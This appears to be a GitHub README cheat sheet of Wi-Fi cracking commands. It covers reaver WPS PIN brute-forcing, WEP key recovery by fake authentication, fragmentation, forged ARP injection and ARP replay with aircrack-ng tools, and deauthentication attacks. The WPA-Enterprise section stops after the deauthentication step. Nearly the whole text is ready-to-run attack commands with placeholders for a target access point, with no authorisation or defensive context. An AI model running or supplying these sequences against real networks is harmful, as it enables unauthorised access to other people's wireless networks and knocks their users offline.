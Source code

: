 # wireless-cracking

## Table Of Content
  * [Info Gathering](#info-gathering)
  * [WPS Attack](#wps-attack)
  * [WEP Cracking (Clientless)](#wep-cracking-clientless)
  * [WEP Cracking (Connected Client)](#wep-cracking-connected-client)
  * [WEP Cracking (Connected Client [Other Method])](#wep-cracking-connected-client-other-method)
  * [WPA-Enterprise Cracking](#wpa-enterprise-cracking)

## Info Gathering
- Get MAC Address of wireless network card
```
macchanger --show <INTERFACE>
```
- List wireless network info
```
iwconfig
```

## WPS Attack
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
wash -i wlan0mon
```
3. Crack the pin
```
sudo reaver -b <bssid of the AP> -i wlan0mon -v -K
```

## WEP Cracking (Clientless)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. If no client then do a fragmentation attack (-5) and obtain the Keystream file (If fragmentation not success then use Chopchop technique -4)
```
aireplay-ng -5 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Then the Keystream file (.xor) is obtained
7. Create ARP packet
```
packetforge-ng -0 -a <bssid of the AP> -h <wireless card MAC addr> -k 255.255.255.255 -l 255.255.255.255 -y fragment-0203-180343.xor(Keystream file) -w arp-request
```
8. Inject the forged ARP packet
```
aireplay-ng -2 -r arp-request wlan0mon
```
9. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. Then the Keystream file (.xor) is obtained
6. Do a fake authentication again with Keystream file
```
aireplay-ng -1 0 -e <wifi name(ssid)> -y <obtained_keystreamfile> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
7. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client [Other Method])
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
**---If Fake authentication not working---** 

5. Interactive packet replay attack
```
aireplay-ng -2 -b <bssid of the AP> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>
```
or
```
aireplay-ng -2 -r <captured file (.cap)> wlan0mon
```
6. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```
**---If Fake authentication working---** 

5. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Do a Deauthentication attack
```
aireplay-ng -0 1 -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```
## WPA-Enterprise Cracking
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Deauthentication attack
```
aireplay-ng -0 1 -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```


